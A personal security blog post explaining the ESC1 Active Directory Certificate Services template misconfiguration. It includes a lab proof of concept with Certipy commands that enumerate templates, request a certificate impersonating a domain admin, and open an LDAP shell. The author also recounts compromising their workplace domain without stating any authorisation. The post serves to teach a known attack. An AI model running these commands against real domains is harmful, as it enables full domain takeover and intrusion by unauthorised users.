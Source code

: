 ```yaml
---
date: 2024-04-13
title: esc1 - a surprisingly easy privilege escalation
type:
- post
- posts
weight: 10
series:
aliases:
- /blog/adcs/
---
```


## what is adcs?

adcs - active directory certificate services is a windows server role that issues and manages PKI certificates that are used in authentication and communication protocols.

these certificates are issued through root and subordinate CA's to various different users, computers and services to maintain certificate validity.

## what is esc1?

esc1 is a specific vulnerability targeting overly permissive active directory certificate templates that are issued by these CA's.

more specifically, if a template allows a standard domain user or domain computer to enroll/request a template, depending on how the template is configured they have the potential to impersonate any user on the domain.

i was pretty surprised how easy this was and even more so by the fact that i haven't come across it before.

the first thing i tried after coming across it was to attempt to replicate this vulnerability at my current workplace's AD environment. after approximately an hour using only a standard domain user account, i had successfully manage to impersonate the head of the SOC team to create a new domain user account and add it to the domain admins group using LDAP queries.

![joshPwnedYou](/joshPwnedYou.png)


## what makes a template vulnerable?

there are a few things that we are looking for when exploiting ESC1, however the most damning are enrolment rights being granted to low privileged users and requesters being able to specify a subjectAltName in the CSR.

**example 1:**

![subjectAltName](/sanRequest.png)

in the above image the ability to include a subjectAltName in the CSR to that specific template is allowed.

active directory will prioritise the SAN name in a certificate for identity if the field is present. this means that by specifying a specific username in the SAN a .pfx can be requested to impersonate any user (e.g domain administrators)

when creating a new template it does give a warning mentioning the risks upon allowing anybody to request a SAN, however if cloning an existing template with it enabled it does not grant a warning.

ฅ^•ﻌ•^ฅ

### proof of concept

the tool that i used for absolutely everything was certipy which can be downloaded from the below link:

https://github.com/ly4k/Certipy

credit to ly4k for maintaining such a fantastic tool.

for the purpose of this blog i have spun up 2 VM's, one of which mimics an AD & CA server (CXLABS-DC-01), and the other being a standard on domain laptop (CXLABS-VM).

i've created a template under the name of VulnTemplate which allows for both the requestee to specify the SAN, in addition to normal domain users being able to enroll into this template.

 > python3 entry.py find -u "joshua@CXLABS.LOCAL" -p "REDACTED" -dc-ip "192.168.197.129" -stdout -scheme ldap

 this uses the find module of certipy to enumerate all ADCS templates, where -u and -p are the credentials for the domain account and the DC-IP is the CA.

 it's important to note that certipy uses LDAPS by default, in my messy DC deployment i have not issued any certs for LDAPS authentication, so i've opted to use plain old ldap.

 output from command:

 ![VulnTemplate](/VulnTemplate.png)

 so straight away you can see we've found a template vulnerable, next we can leverage this template and request a certificate with the SAN being "domain_admin" with the payload looking a little something like this:

 > python3 entry.py req -u joshua@cxlabs.local -p REDACTED -target 192.168.197.129 -template VulnTemplate -ca "CXLABS-CXLABS-DC-01-CA" -upn "domain_admin@cxlabs.local"

![POC](/POC.png)

as you can see we have successfully managed to receive a .PFX certificate that allows us to impersonate a domain admin.

we can now use this to open up an administrative LDAP shell using the below payload:

> python3 auth -pfx domain_admin.pfx -dc-ip 192.168.197.129 -ldap-shell -debug

![pwnd](/pwnd.png)
